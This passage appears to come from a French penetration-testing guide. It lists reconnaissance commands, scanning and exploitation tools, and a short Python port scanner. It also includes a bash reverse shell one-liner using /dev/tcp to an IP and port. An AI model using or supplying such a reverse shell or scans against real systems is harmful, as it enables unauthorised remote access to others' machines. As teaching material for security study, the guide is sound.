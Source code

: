 ### Exemple :
```bash
tcpdump -i eth0
netstat -tulnp
nmap -sS -Pn -p- 192.168.1.1
```

---

## 4.3 – Outils de scan et énumération

| Outil         | Description                                  |
|---------------|----------------------------------------------|
| Gobuster      | Forçage de répertoires web                   |
| Dirb          | Similaire à Gobuster                         |
| Nikto         | Scanner vulnérabilités HTTP                  |
| WhatWeb       | Détecte les technologies d’un site           |
| Searchsploit  | Rechercher des exploits liés à un service    |

---

## 4.4 – Outils d’exploitation

| Outil         | Fonction                                       |
|---------------|------------------------------------------------|
| Metasploit    | Framework d’exploitation                       |
| Msfvenom      | Générateur de payloads                         |
| Netcat        | Shells et transfert réseau                     |
| Burp Suite    | Proxy pour pentest web                         |
| sqlmap        | Injection SQL automatisée                      |

---

## 4.5 – Scripts utiles : Python, Bash, PowerShell

### Exemple Bash : Reverse shell
```bash
bash -i >& /dev/tcp/192.168.1.1/4444 0>&1
```

### Exemple Python : Scanner de ports simple
```python
import socket
ip = "192.168.1.1"
for port in range(20, 1025):
    s = socket.socket()
    if s.connect_ex((ip, port)) == 0:
        print(f"Port {port} ouvert")
    s.close()
```
